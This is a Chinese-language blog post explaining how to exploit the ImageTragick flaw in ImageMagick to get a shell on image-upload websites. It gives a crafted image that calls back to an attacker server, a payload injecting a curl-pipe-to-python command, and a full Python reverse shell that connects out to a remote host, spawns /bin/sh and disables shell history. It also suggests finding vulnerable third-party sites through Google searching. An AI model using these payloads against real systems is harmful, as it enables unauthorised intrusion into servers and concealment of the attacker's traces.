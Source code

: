 ```yaml
---
layout : post
targs : code
premalink : pretty
---
```


写在最前面：关于漏洞的详细信息都在这儿： <https://imagetragick.com/> 加个https我估计也是为了嘲讽，醉。

话说我反应好慢。

刚测试成功了就尴尬了一回。

然后琢磨怎么getshell。

然后。

如下：

### 测试服务器是否存在漏洞：
创建一个文件，叫他 `e.png` 吧：

```bash
➜ cat e.png 
push graphic-context
viewbox 0 0 640 480
fill 'url(http://23.23.23.23:8000/)'
pop graphic-context
```

其中`23.23.23.23`是你的服务器IP，然后在上面开一个迷你的web服务器：`python -m SimpleHTTPServer`，默认端口就是8000，如果有其他业务在8000端口跑。还请加个端口参数（`python -m SimpleHTTPServer 8989`），记得上面的`e.png`也改一下。

在服务器上监听好了之后，就可以上传图片了，哦对了，首先做的应该是找一些能上传图片的站，比如，在线图片转换（Google Hacking）。

其实可以在本地先测试一下：`convert e.png o.jpg`，如果服务器那边有访问请求（GET），那就说明你本地是存在漏洞的。

然后如果你找到了一个可以上传图片并且可以执行代码的网站，那么恭喜你，下一步就可以测试getshell了。

### Getshell

利用执行命令这一点，可以做很多事，创建文件，删除文件，移动文件，乱七八糟，我只是利用了一个shell而已。

```bash
➜ cat psh.png 
push graphic-context
viewbox 0 0 640 480
fill 'url(https://1"||curl -sS http://23.23.23.23:8000/e.py | python")'
pop graphic-context
```

`http://23.23.23.23:8000/e.py`：

```bash
import os,socket,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("24.24.24.24",2333));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.unsetenv("HISTFILE");os.unsetenv("HISTFILESIZE");os.unsetenv("HISTSIZE");os.unsetenv("HISTORY");os.unsetenv("HISTSAVE");os.unsetenv("HISTZONE");os.unsetenv("HISTLOG");os.unsetenv("HISTCMD");os.putenv("HISTFILE","/dev/null");os.putenv("HISTSIZE","0");os.putenv("HISTFILESIZE","0");pty.spawn("/bin/sh");s.close()
```

然后要在 24.24.24.24 的 2333 端口监听反弹过来的shell：`nc -lp 2333`

把这个图片文件上传，然后在 23.23.23.23 开的那台小服务器上就会有get请求，然后，在24.24.24.24监听的2333端口上就会收到一个shell。

就这么神奇。

反弹shell的脚本来自于`google security team`, 网上也有很多，我只是把多余没用的东西去掉了，然后顺便删了一下空格。原来想着是直接写到`e.png`中的，可是因为里面有逗号，而这个漏洞虽然是漏洞但是还过滤了逗号，把逗号都转换成空格了，没办法，只能麻烦一步，用curl抓下来，用管道交给python，然后反弹shell。

其实这样做也比较优雅，比网上那些好看多了。

### 最后
拿到shell之后就是提权之类的了，不在此处讨论。

上一张服务器的图：

![mem](../img/s/imagemagick/1.png)

![net](../img/s/imagemagick/2.png)

